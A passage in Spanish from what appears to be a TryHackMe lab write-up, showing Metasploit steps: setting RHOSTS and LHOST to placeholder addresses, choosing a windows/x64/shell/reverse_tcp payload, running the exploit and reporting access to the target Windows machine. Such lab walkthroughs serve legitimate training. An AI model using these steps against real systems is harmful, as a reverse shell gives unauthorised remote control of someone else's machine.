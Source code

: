 El siguiente paso será completar las opciones vacias que sean necesarias, como podemos comprobar, debemos rellenar **RHOSTS**.
Tambien debemos cambiar **LHOSTS** ya que parece que por defecto ha usado una ip que no es valida.

```bash 

set rhosts <IP_MÁQUINA>
set lhost <IP_MI_MAQUINA>

```

![Rellenar RHOSTS y LHOST](img/6.png)

En el guion de la practica de tryhackme, nos indica que ejecutemos el siguiente payload:

```bash 

set payload windows/x64/shell/reverse_tcp

```

Una vez puesto el payload, ejecutamos el exploit.

```bash 

run

```

![Añadir payload y ejecutar exploit](img/7.png)
![Windows](img/8.png)
Ya estamos dentro del sistema.
